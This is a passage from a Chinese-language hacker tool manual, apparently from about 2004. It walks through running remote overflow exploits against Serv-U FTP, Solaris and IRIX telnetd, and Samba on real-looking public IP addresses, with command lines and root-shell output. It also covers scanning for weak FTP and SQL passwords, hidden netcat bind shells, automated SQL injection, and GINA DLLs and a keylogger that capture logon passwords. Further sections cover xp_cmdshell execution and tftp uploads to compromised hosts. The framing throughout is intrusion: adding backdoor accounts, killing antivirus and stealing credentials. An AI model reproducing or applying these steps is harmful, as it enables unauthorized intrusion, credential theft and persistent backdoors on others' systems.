serv-u ftp 是目前在 WINDOWS 系统中广泛使用的一种 FTP 服务组件。就在 2004 年年初，serv-u ftp 相继被发现在严重的安全漏洞。1 月下旬最先公布出的是 serv-u ftp “site chmod” 远程堆栈缓冲区溢出漏洞，不过要想成功地利用这个漏洞，我们除了需要一个可以成功登录的账号外，还需要拥有一个可以写的目录，也就是要有写权限。2 月底，serv-u ftp 再次被公布了 “MDTM” 远程堆栈缓冲区溢出漏洞，而这次我们只需要一个可以成功登录的账号就可以了，这使得远程攻击的成功率大大地提高了。

在介绍这个漏洞的利用外，我们先来看一下如何更快速地找到提供了 FTP 服务的目标主机。虽然对于流光、x-scan 等扫描工具来讲，都可以扫描 FTP 的弱口令，但是因为这些扫描工具要检测的项目有许多，即使是只选择扫描 FTP 这一项，使用的时间也是很长的。我建议使用 ftpscan 这个基于命令行的 ftp 扫描程序，ftpscan 也自带了字典文件，默认为 username.dic 及 password.dic。为了将速度提高到最快，我们修改这两个文件，在这两个文件中只保留 ftp。这样，ftpscan 就只会检测 ftp:ftp@ftp.net 以及 anonymous:anonymous@anonymous.com 了。ftpscan 的使用格式见图1。

```text
F:\hacker\scantool\ftpscan>ftpscan 61.
***.***.1-61.***.***.254 200
```

我们可以一次扫描一个 C 类地址，也可以一次扫描一个 B 类地址，这个随便你，图2。不过，如果你选择的太多的话，那么在 CMD 窗口下将不能全部地显示出来；而如果你选择的太少的话，似乎又显示不出 ftpscan 快速的特点了。我们可以使用这样的格式来解决：

```text
F:\hacker\scantool\ftpscan>ftpscan 61.
***.***.1-61.***.***.254 200 >aa.txt
```

这样，扫描的结果就会全部保存在 aa.txt 文件中了，扫描完成后我们可以打开这个 aa.txt 文件慢慢地看，图3。


接下来让我们看看 servu345 的使用格式，图4。大致的使用格式为：**servu345 -h 远程主机 -P 服务端口 -t 系统类型 -u 用户账号名 -p 用户账号口令 -d shell 端口**

可以溢出的系统有 Win2000 的简体中文版、繁体中文版、英文版，以及 Windows XP SP1 的简体中文版及英文版。

不使用 -d 参数时，程序会默认使用 ftp，也就是 21 端口来绑定对方的 cmd shell，这样就算对方有防火墙，也不会影响到程序的溢出，否则对方也就没有必要提供 FTP 服务了。从图5中我们可以看到，溢出成功了，得到了对方的一个 cmd shell。


```text
F:\hacker\win2000\servuex>servu345 -h 61.***.***.61 -P 21 -t 0 -u ftp -p ftp@ftp.com
```


最后我用 net user 命令添加了一个账号，这说明我们溢出后得到的为管理员权限，图6。

## 3.22 sun.exe

关于 Unix/Linux 的 telnet 漏洞的溢出程序在网上公布的有好几个版本，包括 SunOS、Linux、FreeBSD 等系统在内都存在这个漏洞。相比较而言，lion 编写的 sun_telnet 应该算是成功率比较高的一个程序了。虽然在 Internet 上关于 SunOS 系统的远程溢出程序有许多，不过，随着 SunOS 新版本的公布以及使用者安全意识的不断提高，许多经典的漏洞攻击程序，诸如 SunRPC 系列，已经时过境迁了。下边先让我们来看看 sun.exe 的使用。

```text
G:\hacker\unixlinux\sunos>sun
Solaris 5.6 7.8 telnetd Remote exploit
Code by lion, Welcome to HUC website
http://www.cnhonker.com

usage: sun [-u user] [-p port] <-h host>

-p: port to use <default: 23>
```


图1

见图1，-u 及 -p 选项我们可以不填，使用默认的就可以了，但有一点要注意，就是目标主机必须要开放 23 端口。

```text
G:\hacker\unixlinux\sun -h 61.*.*.200
Solaris 5.6 7.8 telnetd Remote exploit
Code by lion; welcome to HUC website
http://www.cnhonker.com

send to target:
bin c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c
c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c

uid=2<bin> gid=2<bin>
/
SunOS hwnms 5.8 Generic_108528-07
sun4u sparc SUNW,Ultra-60
$
```

溢出成功了，得到了对方的 shell，见图2。不过，我们的权限只是 bin，而不是 root，因此我们受到了很大的限制，像添加后门账号、制作后门、查看对方的 shadow 文件等等都还不行。


图2

对于入侵者来说，接下来的就是如何提升自己的权限了。其实在 Unix/Linux 系统下提升权限是很容易的，不过，我倒还不想将这篇文章写成入侵教程，所以就此打住了。下边是查看对方的 passwd 文件，见图3。

```text
$ cat /etc/passwd
```


图3

## 3.23 irixtelnet.exe

IRIX 是 UNIX 的一个变种系统，关于 IRIX 系统的安全漏洞虽然也不少，但是严重的远程溢出漏洞却也不是太多，反正没有 WINDOWS、SUNOS、LINUX 系统多。特别是最近一两年，很少在网上看到关于这种操作系统的漏洞公告。

IRIX 系统的 telnetd 远程溢出漏洞是 2000 年公布出的一个安全漏洞，几年前的老洞了。不过，很遗憾，直至今日在网上仍然有一部分 IRIX 系统存在这个严重的安全问题。针对 IRIX 系统 telnetd 的远程溢出程序早在 2000 年就已经公布出来了，我重新使用 cygwin 进行了编译，以使其可以运行在 windows 系统下。

irixtelnet.exe 的使用格式见图1，可以看出，该漏洞只影响 IRIX 6.2、6.3、6.4、6.5、6.5.8 版本。

```text
IP:all

IRIX 6.5-6.5.8m 6.5-6.5.7f
telnetd: no patches

IRIX64 super2 6.5 07201607 IP27
```

程序会自动检测对方的 telnet 有没有打过补丁，当然了别忘记了，需要对方开启了 telnet 服务，也就是开了 23 端口。从图2中可以看出，我们溢出成功了，对方的系统信息已经显示出来了，也就是“IRIX64 super2 6.5 07201607 IP27”这行。除了这行外，再也没有任何的提示，或是别的命令提示符什么的。不过别误会了，在下边一行的光标处，程序正在等待着我们输入命令呢。


下边让我们来看一下具体的使用，见图2。

先来看一下我们溢出后得到的权限是什么。

```text
E:\sagi\irixtelnet>irixtelnet 61.***.***.135 -v 65

copyright LAST STAGE OF DELIRIUM
jul 2000 poland //lsd-pl.net/

The exe file compiled by sagi
telnet for irix 6.2 6.3 6.4 6.5 6.5.8
```

```text
id

uid=0(root) gid=0(sys)
```

噢，可以看出，我们现在就是 root 权限，不必再想方法提升自己的权限了，现在我们可以执行任何的命令，见图3。


图3

图4

接下来的操作就随便你了，查看对方系统的文件，查看对方系统中的 passwd、shadow，添加后门账号，安装 rootkit 等等，见图4。

不过，千万不要做得太过分哟！否则，警察同志半夜会敲你门的。

## 3.24 0x333samba.exe

关于 LINUX 系统的远程溢出程序有许多，不过有许多因为新版本的出现，以及安装了相应的补丁程序，有一些以前经典的远程溢出程序已经时过境迁了。不过随着新的漏洞的不断被发现，以及相应的溢出程序被公布，对于 LINUX 系统的安全来说，仍然是要面临的一个严重问题。

关于 LINUX 系统提供的 samba 服务中存在的远程溢出漏洞，是 2003 年才被公布的，这是一个非常危险的远程溢出漏洞，入侵者可以通过这个漏洞轻易地夺取远程 LINUX 系统的 ROOT 权限。关于 samba 漏洞的溢出程序有很多，0x333samba 就是其中的一个。

让我们来看看 0x333samba 的使用。

```text
[*] coded by cowboy : www.0x333.org.

[+++] Welcom to http://www.haowawa.com/ +++

Usage : 0x333samba [-t target] [-p port] [-h]

-t    target to attack
-p    samba port <default 139>
-h    display this help

G:\hacker\0x333samba\0x333samba>
0x333samba

[*] 0x333hate => samba 2.2.x remote root exploit [*]
```

从图1中我们可以看出，0x333samba.exe 与目标系统建立连接所使用的端口为 139，这也是 samba 服务所使用的端口，我们完全可以利用这一点来使用一些端口扫描程序寻找提供了 samba 服务的 LINUX 系统。


图1

```text
Linux sunsweet 2.4.20 #20 Mon Mar 17 22:55:24 PST 2003 i586 unknown
uid=0<root> gid=0<root> groups=99<nogroup>,98<nobody>
```

溢出成功了，通过“uid=0<root> gid=0<root> groups=99<nogroup>,98<nobody>”这行我们也可以清楚看出，我们溢出后获得的权限为 root 权限，这表示我们可以做任意的事情。

溢出后虽然没有命令提示符，不过，这并不影响命令的执行，见图2。

接下来让我们来具体地看一下 0x333samba 的使用。

```text
G:\hacker\0x333samba\0x333samba>
0x333samba -t 61.*.*.49 -p 139

[*] 0x333hate => samba 2.2.x remote root exploit [*]
[*] coded by c0wboy - www.0x333.org [*]

[-] connecting to 61.*.*.49:139
[-] stating bruteforce

[-] testing 0xbfffffff
[-] testing 0xbffffdff
[-] testing 0xbffffbff
[-] testing 0xbffff9ff
[-] testing 0xbffff7ff
```


图2

## 3.25 xservu.exe

在前边我们已经讲过了针对 serv-u ftp 的一个远程溢出程序 servu345.exe 的使用，但是那个程序最高只支持 serv-u ftp 的 5.0.0.0 版本，对于新的 serv-u ftp 5.0.0.4 版本溢出无效。xservu.exe 则是后来在网上公布的一个远程溢出程序，可以用来远程溢出新的 serv-u ftp 5.0.0.4 版本。

xservu.exe 的使用格式见图 1，支持的系统类型主要包括英文 Win2000、简体中文 Win2000、繁体中文 Win2000、韩文 Win2000、日文 Win2000，支持的 Serv-U FTP 版本为 4.0.0.4、4.1.0.0/3、5.0.0.0、5.0.0.4。在溢出时，我们必须要拥有一个可以登录的合法帐号，匿名帐号也是可以的，但要注意的是，该帐号不能被锁定工作目录，否则有可能无法溢出成功。

“-t 1” 表示选择的系统类型为简体中文 Win2000 或繁体中文 Win2000，“-o 1” 表示选择的对方 Serv-U FTP 的版本为 5.0.0.4。溢出成功后，会自动地在对方的 21 端口得到一个 cmd shell，见图 2。因为使用了对方的 21 端口来绑定 shell，此时，对方的 FTP 服务已经无法工作了。


同样，此时我们溢出后，拥有对方的系统权限，可以成功地执行开启服务、添加帐号、制作后门等操作。


下边进行溢出测试。

```text
E:\sagi\xservu\xservu -i 192.168.0.155 -u sagi -p 2202553 -t 1 -o 1 -P 21
```

“-u sagi” 为对方 FTP 服务上的一个合法帐号，对于可以匿名登录的，就是 anonymous 及 ftp 帐号；“-p 2202553” 为 sagi 帐号的登录口令，对于匿名帐号，可以使用 anonymous@anonymous.com、ftp@ftp.net。

# 第四章 入侵辅助

本章节中，我们主要介绍几个本地溢出（权限提升）工具的使用。另外，还有小榕的两款用于清除系统日志文件的程序，以及其他的一些常用的工具程序，包括大名鼎鼎的 nc，用于获取登录密码的 gina、ntshellgina，用于文件传输的 tftpd32 等。


## 4.1 NC（NetCat）

工具 NC 是黑软中的老大哥了，因其锐利，所以，被称为“瑞士军刀”，而且，此话不假，NC 的威力确实是……简直是好得没得说啊。

至于 NC 到底有多厉害，我们来看一下用法就知道了。

首先，先介绍一下参数，因为参数是英文的，所以在这里我翻译成中文并将它们列出来：

```text
C:\>nc -h
[v1.10 NT]
connect to somewhere:    nc [-options] hostname port[s] [ports]
listen for inbound:      nc -l -p port [options] [hostname] [port]
options:
    -d
    -e prog
    -g gateway
    -G num
    -h
    -i secs
    -l
    -L
    -n
    -o file
    -p port
    -r
    -s addr
    -t
```

- `-u`：UDP 模式
- `-v`：显示详细信息，使用 `-vv` 得到更详细信息
- `-w secs`：连接超时设置
- `-z`：I/O 模式，扫描时使用

OK，接下来我们使用实例来看一下其威力。

- 1. 监听本地 TCP 端口：`nc -l -p 5277`（`-l` 为小写）  
  这个命令就是在本地打开一个端口，如果这样使用该命令，当对方扫描本机的 5277 端口的话，会呈开放状态。

- 2. 监听 UDP 端口：`nc -l -u -p 5277`  
  和上面的命令作用相同，唯一不同的是上面的命令是监听本地的一个 TCP 端口，而这里是监听 UDP 端口。

- 3. 监听并记录某个端口的入站信息：`nc -l -p 5277 > c:\\log.txt`  
  这样，当有主机向本地的 5277 端口发送数据的话，将完全被记录，并且将其内容重定向到 C 盘的根目录下的 log.txt 文件中。

- 4. 在 cmd 窗口中显示入站信息：`nc -v -l -p 5277`（or `nc -vv -l -p 5277`）  
  这样，当对方有数据发送到该端口上的时候，将不是重定向到文件中，而是在屏幕上显示。

- 5. 持续监听本地端口：`nc -vv -L -p 5277`（此处 `-L` 为大写）  
  命令 1—4 的监听只能收集一次的入站数据，而不能持续监听，如果用这样的命令的话，就会持续地在 5277 端口上进行监听，直到你关掉它为止。

### 6. 重定向程序

```text
nc -L -p 5277 -e cmd.exe

nc -l -p 5277 -e cmd.exe
```

（在语法上，两个命令的差别只在 `-L` 参数的大写和小写上）

这样的话，在运行着该命令的主机上，将会在 5277 端口处有一个 shell，该 shell 就是 cmd.exe。因此，只要在其他的主机上：telnet ip 5277（这里的 IP 是运行该命令的主机）就可以拿到一个 shell。

当参数 `-l` 为小写的时候，这个 shell 是一次性的，也就是说，一旦断开连接，shell 就没有了，下次无法再 telnet 连接上。

而参数 `-L` 为大写的时候，则 shell 是一直存在的，直到你或是对方主机管理员关掉它为止。

### 7. 隐藏程序到后台

```text
nc -L -d -p 5277 -e cmd.exe

nc -l -d -p 5277 -e cmd.exe
```

在 cmd 窗口中运行完该命令后，关掉当前窗口，会发现，NC.EXE 仍在进程中存在，这时候：telnet ip 5277 还是可以拿到 shell 的。

加上一个 `-d` 参数是为了让程序更隐蔽，而不轻易地被发现。而实现手段就是通过进程隐藏到后台。

### 8. 扫描端口

```text
nc -vv -z ip port-port
```

扫描一段连续的端口时使用该命令，这样将可以扫描到开放的 TCP 端口。

### 9. 扫描几个特定的端口

```text
nc -vv -z ip port port port ....
```

每个 port 中间用空格隔开就可以了。

例如，扫描本地的 80 和 139 两个端口，命令格式为：

```text
C:\>nc -vv -z python 80 139
python: [127.0.0.1] 80 (http) open
python: [127.0.0.1] 139 (netbios-ssn)
connection refused
sent 0, rcvd 0, NOTSOCK
```

### 10. 利用 NC 自身参数来 dump 端口上的入站信息

```text
nc -l -p 5277 -o c:\\log.txt

nc -L -p 5277 -o c:\\log.txt
```

监听本地的 5277 端口，然后，将入站本地端口 5277 的数据 dump 成为十六进制数据并存到 C 盘根目录的 log.txt 文件中（如图 1）。


图 1

到此为止，NC 常见的，而且是最基本的命令用法都介绍到了，希望对大家有些帮助。而且，根据这些，还可以产生很多 NC 的高级用法，大家可以开动脑筋，切记，只有想不到，没有做不到。

## 4.2 SqlInj.exe

脚本注入攻击是目前非常流行的一种攻击方法，大多数脚本注入攻击都是通过手工提交的方式来完成的，这需要攻击者非常熟悉 ASP、PHP 语言以及数据库语言等，这对于许多新手来讲是很难做到这一步的，而 SqlInj.exe 正是针对这一目的推出的一款自动注入攻击程序。

我们从网上下载的压缩程序解压后，共有两个可执行程序，SqlInj.exe 以及 sqlinjWebProg.exe。倘若我们在 SqlInj 的当前目录下没有发现“管理员入口”、“管理账号表名”、“密码字段表”、“账号字段名”等四个文本文件的话，我们可以运行 sqlinjWebProg.exe，sqlinjWebProg.exe 会自动地到网上下载这四个文件。如果已经存在这四个文件的话，我们再运行 sqlinjWebProg.exe，就会自动地切换到 SqlInj.exe 程序，这和双击运行 SqlInj.exe 是一样的。


图 1

SqlInj.exe 运行后的主界面见图 1，我们点击“CSC”按钮，进入 SqlInj.exe 的选项配置菜单，见图 2。在“Url:”栏中输入目标服务器的注入点，然后依次选择管理员账号表名、账号字段名、密码字段名，“猜解选项”中选择好要猜解管理员目的字典文件，下边的猜解账号及猜解密码都选择“猜解全部”就可以了。


图 2

点击“GO”按钮后，SqlInj.exe 就会自动地进行检测了，见图 3，所有检测出的结果都会显示在“结果窗口”中。


图 3


如果猜解出了管理账号表名、管理字段名以及密码字段名、密码长度等信息的话，SqlInj.exe 就会自动地猜解出该账号的密码了，见图 4。

大多数这类密码都是 MD5 方式加密的，不过从图 4 中我们可以看到我们猜解出的这个密码为 Base64 方式加密的密码，当然了，转换这些密码是很容易的事情。

图 4

## 4.3 mport

这个工具的作用就是用来查看某些进程所占用的端口号，并且，还能知道产生该进程的应用程序的位置。

在 mport 之前，有个工具叫做 fport，它的作用和 mport 完全一样。但是，fport 在 Windows XP 下并不能使用，而 mport 在 Win2K 和 Windows XP 下均可以正常使用。

这个工具的用法非常简单，在命令行下，转到 mport 所在目录，然后直接输入 mport 就会返回结果：

```text
E:\hack-tool>mport

TCP/IP Process To Port Mapper By Meteor.

The System Is Win 2K

Pid      Port      Proto      Path
8   -->  445       TCP
WINNT\system32\svchost.exe
616   -->   1025   TCP
WINNT\system32\msdtc.exe
616   -->   3372   TCP
WINNT\system32\msdtc.exe
812   -->   1026   TCP
WINNT\system32\MSTask.exe
8   -->   445   UDP
1552   -->   1030   UDP
Program Files\Common Files\CMEII\CMESys.exe
```

第一列的 pid 就是指 Process ID，即进程标识符。

如何查看一个进程的 pid？打开任务管理器，切换到进程卡片中；在这里，可以看到进程；在后面一列中就可以看到，每个进程对应的 pid 值（如图 1）。

## 入侵辅助


后面的一列 Proto 就是指协议了，从这里可以看到进程对应的服务是使用 TCP 协议还是 UDP 协议。

Path 则是指进程对应的应用程序的位置。当然，像一些由于系统特性而由系统自身开放的端口，我们就找不到其对应的应用程序了（例如，上图中 pid 为 8 对应端口为 445 的这一进程）。

这个工具的作用如此明显啊，就不用我多说了吧，看到有什么可疑的程序开了可疑的端口，就去 kill 吧。

## 4.4 aproman.exe

在本地的 WIN2000 上我们可以通过“Ctrl+Alt+Del”调出 Windows 的任务管理器来查看系统的进程等情况，但是当我们在远程主机上，比如远程 telnet 上，或者利用其他的方法得到了对方的一个 cmd shell 后，如何查看对方系统的进程呢？aproman 就是这么一个用于查看系统中进程号的程序，也可以用于查看系统中开放的端口等信息。

aproman 的使用参数主要有四个：`-a`、`-p`、`-t`、`-f`，见图 1。

```text
D:\hacker\backdoor>aproman -a
```

使用 `-a` 参数是显示出所有的进程号，在图 2 中我们可以看到远程 WIN2000 系统中的所有进程及相应的进程号，这样的话，我们再结合其他的程序就可以将诸如网络防火墙或病毒防火墙的进程 kill 掉，当然，我们要先拥有 administrator 权限。


```text
D:\hacker\backdoor>aproman -p
```

使用 `-p` 参数是显示所有的端口及信息，见图 3。


而 `-t` 参数是显示终端服务的进程，这需要对方系统为 WIN2000 的服务器版本。`-f` 参数是将所有的进程及信息写入到指定的文件中。这样，我们就可以使用 `type filename | more` 命令来仔细地查看这些信息了。

## 4.5 gina.exe

gina.exe 是一个用于获取 Windows NT/2000/XP/2003 系统帐号的程序。与使用 sniffer 类的程序来获取登录密码不同的是，这个程序的使用更像是一个后门。gina 的使用没有什么复杂的格式，也没有众多的参数，除了 `-install` 安装及 `remove` 卸载，见图 1。

我们使用如下的格式进行安装。

```text
E:\bak\gina -install
```


gina 会先将自带的 SysGina32.dll 复制到 `WINNT\System32` 目录下，然后进行注册项的设置。

设置如果一切顺利的话，gina 会提示我们安装成功，以及将密码保存在 txt 文件 `\WINNT\System32\GinaPwd.txt` 中，图 2。我们下边要做的就是等待系统的重新启动。

最后让我们来看一下记录密码的 GinaPwd.txt，图 3。


图 3

```text
E:\WINNT\system32>type ginapwd.txt
日期：[03/22/04]  时间：[11:01:32]

用户名：administrator
密码：5709993
登录域：yang
```

我们可以看到，得到的密码是以明文方式记录的，还包括了对方登录的时间等信息。

## 4.6 NTShellGina.DLL

NTSHELLGINA.DLL 是 NTSHELL 中的一个动态库文件，该文件可以在用户以图形方式登录系统的时候从内存中抓取登录用户的密码，并保存为文件的工具。下面我们来谈谈它的具体用法。

该文件是利用注册表载入的，在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 下新建一键值 `GinaDLL`，输入 DLL 路径（这里我们假设 DLL 的路径为 `C:\WINNT\SYSTEM32\NTGINA.DLL`），输入 `C:\WINNT\SYSTEM32\NTGINA.DLL` 即可。我们也可以将该键值在本地保存好，然后导出为 REG 文件，直接使用命令 `REGEDIT -s pass.reg` 导入或者双击导入。在用户以图形方式登录以后，在 system32 下会生成 `msacm32.msg` 文件，用记事本或任何文本编辑工具打开即可看见保存的密码。

### 完整例子

当取得一个特权用户 shell 后，上传文件 `pass.reg`、`NTSHELLGINA.DLL` 到 `system32` 目录下。然后将注册表导入，图 1。


图 1

如果你是在窗口界面的话，可以双击 reg 文件，将文件导入注册表，图 2。

## 4.7 klogger.exe

klogger.exe 是一个基于 Windows 系统平台的键盘记录工具，klogger.exe 运行后，会把目标主机上键盘接收的数据信息以明文方式记录在同目录下的 klogger.txt 文件中。对于我们来说，唯一要做的就是想办法将该程序上传到目标系统上去执行。

klogger.exe 程序的执行实在是太简单了，就像清屏命令（cls）一样，我们只需要在命令提示符后输入“klogger”然后回车确认就可以了，见图 1。


让我们打开后所记录的文件 klogger.txt，来看看记录的内容，也就是对方在键盘上输入的命令，见图 2。从图 2 中我们可以清楚地看到在目标主机上进行了一次成功的远程登录（telnet），并完整地记录下了对方的登录账号及密码。有一点要注意的是，每一个字符在文件中都会被连续记录三次，例如“sssyyysss”这行，记录的是登录的账号，实际上在键盘上输入的是“sys”，而不是“sssyyysss”。


等待用户登录以后，在 system32 目录下寻找 msacm32.msg，图 3。

将文件用记事本打开，图 4。


看到了吗？admin 的密码。

> LOOK~ 注意哦：dll 的路径一定要写绝对路径，否则将会造成系统无法启动甚至崩溃。


## 4.8 sqlexec.exe

sqlexec.exe 是一个远程连接 MS-SQL 数据库系统的程序，不仅仅是连接，还可以用于远程执行命令，就像是在操纵自己的电脑一样，不过前提是我们必须拥有远程系统中合法的 SQL 帐号。

在介绍 sqlexec.exe 的使用前，让我们先来看一个专门用于扫描 MS-SQL 数据库系统中弱口令的工具 scansql.exe。scansql.exe 同前边讲过的那个 ftpscan.exe 在界面及使用格式上非常地相像，而且都是基于命令行方式下的；速度都很快，图1。


具体的使用格式为：

```text
F:\hacker\scantool\sqlscan>scansql 61.***.***.1 61.***.***.254 100
```

图2。与 ftpscan.exe 不同的是，scansql.exe 只检测 sa 帐号的口令，默认使用自带的字典文件 sqlpass.txt，我们可以根据自己的需要来修改这个文件，比如只检测口令为空或口令为“sa”，以此来提高扫描的速度等等。如果我们扫描的范围很大的话，同样也会造成在 cmd 窗口中显示不出来，可以使用 `F:\hacker\scantool\sqlscan>scansql 61.***.***.1 61.***.***.254 100 >aa.txt` 的格式来将所有的扫描结果保存在 aa.txt 文件中，这样在扫描结束后，就可以仔细地查看刚才的扫描结果了，图3。


当我们已经掌握了远方 MS-SQL 数据库系统的帐号后，下边就让我们来看一下如何使用 sqlexec.exe。

sqlexec.exe 启动后的界面见图4。在“Host:”栏中输入目标 MS-SQL 主机的 IP 地址，“User:”栏中使用 sa，“Pass:”栏中输入 sa 帐号的密码，如果为空的话可以不输，连接方式使用默认的“TCP/IP”方式就可以，点击右边的“Connect”连接按钮，如果无法连接的话，sqlexec.exe 会提示我们连接不上的。


图4

连接成功后，在下方的“Format:”栏中我们可以选择使用 `xp_cmdshell "%s"` 格式，在最下方的“CMD”栏中输入我们想要执行的命令，比如“net start telnet”回车就可以了，我们可以看到命令执行后的提示信息已经成功地显示在了中间的窗口中了，图5。


图5

## 4.9 tftpd32.exe

提起 tftpd32 来，我想许多小菜都不会感到陌生，因为早在 UNICODE 漏洞的远程攻击中，tftpd32 就已经非常地风光了，不过随着 Internet 上许多的 Win2000 都打上了 SP3、SP4，UNICODE 攻击已经过时了，而 tftpd32 这个程序也已经被许多小菜所淡忘了，但是对于许多老手来说，tftpd32 仍然是一个很好的工具，其作用也不是其他的程序所能轻易替代的。举个例子来说，ASP 溢出及 Media Services 溢出后得到的 cmd shell 只拥有 GUEST 权限，此时是根本不可能来直接添加帐号，然后使用 net use 连接来达到上传文件的目的的，此时，tftpd32 就显示出了它的强大作用，我们完全可以使用 tftpd32 来实现文件的上传。

先让我们来看一下 tftpd32 的使用，运行后的主界面如图1所示。


图1

缺省的目录为 tftpd32 所在的目录，缺省的服务器 IP 地址为自己电脑的 IP 地址，缺省的端口为 69；如果我们要上传的文件与 tftpd32.exe 是处于同一目录中的话，那么我们直接运行后就可以了，不必要再做任何的设置了。

如果不是的话，我们也可以点击“设置”在“TFTP 服务器设置”菜单中来自已定制使用的端口及目录位置等等，见图2。


图2

如果一切都设置好了的话，那么我们的电脑已经变成了一个 TFTP 服务器了，接下来要做的，就是从远程电脑上发送请求来从我们的电脑上下载文件，从而实现文件的上传了。

```text
C:\Inetpub\scripts>tftp -i 61.241.62.96 GET idq.dll

tftp -i 61.241.62.96 GET idq.dll
```

```text
Transfer successful, 32768 bytes in 24 seconds, 1365 bytes/s
```


图3

如果看到“Transfer successful.”的提示，就说明下载成功了，在 tftpd32 的界面上也可以看到从远程电脑上发送过来的连接及下载请求，见图3。如果是要从对方电脑上来下载文件，也就是通过 tftpd32 将对方电脑上的文件下载到我们自己的电脑上，那么在对方电脑上 tftp 执行的格式就应该是：

```text
tftp -i 61.241.62.96 PUT filename
```

## 4.10 whoami

whoami 是 Win2k 的 Resource Kit 中的一个实用工具，顾名思义，它的作用就是查看用户的信息以确定用户的身份。

直接使用命令 whoami 就可以列出当前登录系统的用户名：

```text
C:\>whoami
```

```text
PYTHON\Administrator
```

不难看出，“\”前面的 PYTHON 就是指当前的计算机名，而后面的 Administrator 当然就是当前的用户了。

使用 whoami /help 命令可以获得详细的帮助（图1）。


图1

下面，针对这些参数，详细进行讲解：

### 1. 参数 /all

使用命令 whoami /all 就可以获得当前登录用户的令牌内容，从令牌中，我们可以获得用户的全部信息，例如，用户属于哪些组、用户的 SID 等等信息，下面是使用 whoami 的返回信息：

（其实，其他的各个参数所获得的信息都只是 whoami /all 命令获得的信息的一部分而已）


### 2. 参数 /noverbose

使用该参数后，将会尽可能少地显示当前用户的信息，而且，该参数要配合其他的参数使用。例如，使用命令 whoami /user 会得到如下结果：


配合 /user 参数，我们可以加上 /noverbose 参数，这样，返回信息为：


除了配合 /user 一起使用外，还有 /groups 参数，用法：whoami /groups /noverbose，得到结果：


```text
Everyone
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\INTERACTIVE
NT AUTHORITY\Authenticated Users
LOCAL
```

### 3. 参数 /user

直接加上 /user 就会得到当前的登录用户名，和直接使用 whoami 的结果一样，只是显示上有点区别而已：

```text
C:\>whoami
PYTHON\Administrator

C:\>whoami /user
[User] = "PYTHON\Administrator"
```

### 4. 参数 /groups

直接使用 whoami /groups 命令就可以获得当前用户所在组的列表：

```text
C:\>whoami /groups
[Group 1] = "PYTHON\None"
[Group 2] = "Everyone"
[Group 3] = "BUILTIN\Administrators"
[Group 4] = "BUILTIN\Users"
[Group 5] = "NT AUTHORITY\INTERACTIVE"
[Group 6] = "NT AUTHORITY\Authenticated Users"
[Group 7] = "LOCAL"
```

### 5. 参数 /priv

如果你的计算机没有在域（Domain）中的话，这个参数是没有用的，该参数的意义是显示用户的特权。

在单机上使用，看不到任何效果：

```text
C:\>whoami /priv
(X) SeChangeNotifyPrivilege
(O) SeSecurityPrivilege
(O) SeBackupPrivilege
(O) SeRestorePrivilege
(O) SeSystemtimePrivilege
(O) SeShutdownPrivilege
(O) SeRemoteShutdownPrivilege
(O) SeTakeOwnershipPrivilege
(O) SeDebugPrivilege
(O) SeSystemEnvironmentPrivilege
(O) SeSystemProfilePrivilege
(O) SeProfileSingleProcessPrivilege
(O) SeIncreaseBasePriorityPrivilege
(X) SeLoadDriverPrivilege
(O) SeCreatePagefilePrivilege
(O) SeIncreaseQuotaPrivilege
(X) SeUndockPrivilege
```

另外，我们还可以使用参数组合：whoami /user /groups /priv，不过，这些一样要在域中使用才可以。单机上的效果，呵呵，惨哦，看不出来的：

```text
C:\>whoami /user /groups /priv
[User] = "PYTHON\Administrator"
[Group 1] = "PYTHON\None"
[Group 2] = "Everyone"
[Group 3] = "BUILTIN\Administrators"
[Group 4] = "BUILTIN\Users"
[Group 5] = "NT AUTHORITY\INTERACTIVE"
[Group 6] = "NT AUTHORITY\Authenticated Users"
[Group 7] = "LOCAL"
(X) SeChangeNotifyPrivilege
(O) SeSecurityPrivilege
(O) SeBackupPrivilege
(O) SeRestorePrivilege
(O) SeSystemtimePrivilege
(O) SeShutdownPrivilege
(O) SeRemoteShutdownPrivilege
(O) SeTakeOwnershipPrivilege
(O) SeDebugPrivilege
(O) SeSystemEnvironmentPrivilege
(O) SeSystemProfilePrivilege
(O) SeProfileSingleProcessPrivilege =
(O) SeIncreaseBasePriorityPrivilege =
(X) SeLoadDriverPrivilege =
(O) SeCreatePagefilePrivilege =
(O) SeIncreaseQuotaPrivilege =
(X) SeUndockPrivilege
```

如果在域中的话，你的当前用户有特权的话，会在等于号（“=”）后有文字说明，不过是 E 文，大家有机会的话，到域中试一下。

### 6. 参数 /LOGONID

测试了一下，没有任何回显，而且，查遍了资料也没有哪份资料说 /LOGONID 参数的作用，不过，在 Resource Kit 的帮助中说 whoami 的作用可以查看域中用户的登录帐号及信息，我想，指的就是这个参数吧。

### 7. 参数 /SID

该参数只能配合其他的参数使用，可以与之相配合使用的参数有：/USER、/GROUPS、/PRIV or /LOGONID。

作用就是查看当前的用户（/USER）、当前的组（/GROUPS）的 SID。

例如，下面的几个命令以及返回信息：

```text
C:\>whoami /user /SID
[User] = "PYTHON\Administrator"
S-1-5-21-1844237615-1708537768-854245398-50

C:\>whoami /groups /SID
[Group 1] = "PYTHON\None" S-1-5-21-1844237615-1708537768-854245398-513
[Group 2] = "Everyone" S-1-1-0
[Group 3] = "BUILTIN\Administrators" S-1-5-32-544
[Group 4] = "BUILTIN\Users" S-1-5-32-545
[Group 5] = "NT AUTHORITY\INTERACTIVE" S-1-5-4

[Group 6] = "NT AUTHORITY\Authenticated Users" S-1-5-11
[Group 7] = "LOCAL" S-1-2-0
C:\>whoami /groups /priv /SID
[Group 1] = "PYTHON\None" S-1-5-21-1844237615-1708537768-854245398-513
[Group 2] = "Everyone" S-1-1-0
[Group 3] = "BUILTIN\Administrators" S-1-5-32-544
[Group 4] = "BUILTIN\Users" S-1-5-32-545
[Group 5] = "NT AUTHORITY\INTERACTIVE" S-1-5-4
[Group 6] = "NT AUTHORITY\Authenticated Users" S-1-5-11
[Group 7] = "LOCAL" S-1-2-0
(X) SeChangeNotifyPrivilege =
(O) SeSecurityPrivilege =
(O) SeBackupPrivilege =
(O) SeRestorePrivilege =
(O) SeSystemtimePrivilege =
(O) SeShutdownPrivilege =
(O) SeRemoteShutdownPrivilege =
(O) SeTakeOwnershipPrivilege =
(O) SeDebugPrivilege =
(O) SeSystemEnvironmentPrivilege =
(O) SeSystemProfilePrivilege =
(O) SeProfileSingleProcessPrivilege =
